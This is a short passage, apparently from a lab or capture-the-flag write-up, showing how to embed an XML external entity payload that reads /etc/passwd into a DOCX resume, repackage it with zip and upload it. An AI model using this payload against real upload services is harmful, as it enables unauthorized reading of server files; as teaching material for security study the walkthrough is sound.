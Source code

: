 ![Pasted image 20250430162255.png](../../IMAGES/Pasted%20image%2020250430162255.png)

Now, we need to copy the payload and change the `Reginald Dodd` stuff to `&test;`:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```

![Pasted image 20250430162458.png](../../IMAGES/Pasted%20image%2020250430162458.png)

![Pasted image 20250430162445.png](../../IMAGES/Pasted%20image%2020250430162445.png)

Once we do the modifications, we need to zip it again, let's do:

```
zip resume.docx word/document.xml
```

Now, let's upload the file:

